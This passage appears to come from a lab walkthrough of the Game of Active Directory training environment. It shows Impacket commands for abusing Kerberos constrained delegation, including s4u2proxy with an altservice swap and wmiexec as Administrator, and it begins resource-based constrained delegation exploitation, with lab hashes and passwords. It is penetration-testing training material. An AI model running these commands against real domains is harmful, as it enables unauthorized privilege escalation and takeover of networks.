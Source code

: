 - You could also do the 2 (s4u2self + s4u2proxy) in one command :

```bash
getST.py -spn 'host/castelblack' -impersonate Administrator -dc-ip 192.168.56.11 north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

- And launch the s4uProxy with the forwardable ticket

```bash
# s4u2proxy from constrained (castelblack) to target (winterfell) - with altservice to change the SPN in use
getST.py -impersonate "administrator" -spn "http/winterfell" -altservice "cifs/winterfell" -additional-ticket 'administrator@host_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11 -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'

export KRB5CCNAME=/workspace/administrator@cifs_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache 
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```

![deleg_constraint_deleg_exploit2.png](/assets/blog/GOAD/deleg_constraint_deleg_exploit2.png)

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:

```bash
rbcd.py -delegate-to 'castelblack$' -delegate-from 'rbcd_const$' -dc-ip 192.168.56.11 -action 'flush' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!' -delete
```

## Resource Based Constrained Delegation

- Resource Based Constrained delegation (RBCD)

- You can abuse RBCD when you can edit the attribute : msDS-AllowedToActOnBehalfOfOtherIdentity

> A computer account can edit his own attribute msDS-AllowedToActOnBehalfOfOtherIdentity
> This is usefull when you do ldaps NTLM relay (like in the drop-the-mic attack path), you can then edit the computer attribute and launch an RBCD exploitation.
{: .prompt-tip }

- An example of exploitation is when you got genericAll or genericWrite ACL on a Computer.

- You can find this in the lab when you look at the acl on users.

![deleg_find_acl.png](/assets/blog/GOAD/deleg_find_acl.png)

- We can see that stannis.baratheon got a generic Write on kingslanding

- The RBCD exploitation append with the following commands :

- Create a computer X (rbcd$)

```bash
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:Drag0nst0ne'
```
